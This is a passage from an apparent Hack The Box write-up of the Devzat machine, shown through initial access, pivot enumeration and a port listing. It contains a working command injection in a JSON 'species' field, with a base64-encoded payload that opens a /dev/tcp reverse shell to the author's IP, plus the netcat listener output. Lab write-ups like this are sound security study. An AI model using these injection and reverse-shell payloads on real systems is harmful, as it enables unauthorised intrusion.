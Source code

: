 ```console
┌──(bitis㉿workstation)-[~/htb/Machines/devzat/out]
└─$ curl -X POST -d '{"name": "Cicada","species": "cat; echo L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNy4xODIvMTMzNyAwPiYx | base64 -d | bash", "characteristics": "cat"}' -H "'Content-Type': 'application/json'" "http://pets.devzat.htb/api/pet"
```
This gives us a reverse shell and access to the patric user.
```
┌──(bitis㉿workstation)-[~/htb/Machines/devzat]
└─$ nc -lvnp 1337             
listening on [any] 1337 ...
connect to [10.10.17.182] from (UNKNOWN) [10.129.136.15] 50534
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(patrick) gid=1000(patrick) groups=1000(patrick)
$ 
```
An ssh key belonging to patric can be found in his home directory, and can be used to get a more stable shell. 

## Pivot
Listing the contents of the `/home`{: .filepath} direcotry list another user, which means w emost likely have to pivot to this user before rooting the box.
```console
atrick@devzat:/home$ ls
catherine  patrick
```
If we go back to the devzat site, we see the following:
![Instructions on joining the devzat chat](instruct.png)
Joining the chat as patrick lets us see his chat with the admin:
```console
patrick@devzat:/home$ ssh -l patrick -p 8000 localhost
The authenticity of host '[localhost]:8000 ([127.0.0.1]:8000)' can't be established.
RSA key fingerprint is SHA256:f8dMo2xczXRRA43d9weJ7ReJdZqiCxw5vP7XqBaZutI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[localhost]:8000' (RSA) to the list of known hosts.
admin: Hey patrick, you there?
patrick: Sure, shoot boss!
admin: So I setup the influxdb for you as we discussed earlier in business meeting.
patrick: Cool 👍
admin: Be sure to check it out and see if it works for you, will ya?
patrick: Yes, sure. Am on it!
devbot: admin has left the chat
Welcome to the chat. There are no more users
devbot: patrick has joined the chat
patrick: 
```
As we can see, the machine is hosting an influxdb. Reading about influxdb, the default port seems to be 8086.
```console 
patrick@devzat:/home$ ss -tulnp
Netid                State                 Recv-Q                Send-Q                                Local Address:Port                                 Peer Address:Port                Process                                          
udp                  UNCONN                0                     0                                     127.0.0.53%lo:53                                        0.0.0.0:*                                                                    
udp                  UNCONN                0                     0                                           0.0.0.0:68                                        0.0.0.0:*                                                                    
tcp                  LISTEN                0                     4096                                      127.0.0.1:5000                                      0.0.0.0:*                    users:(("petshop",pid=947,fd=3))                
```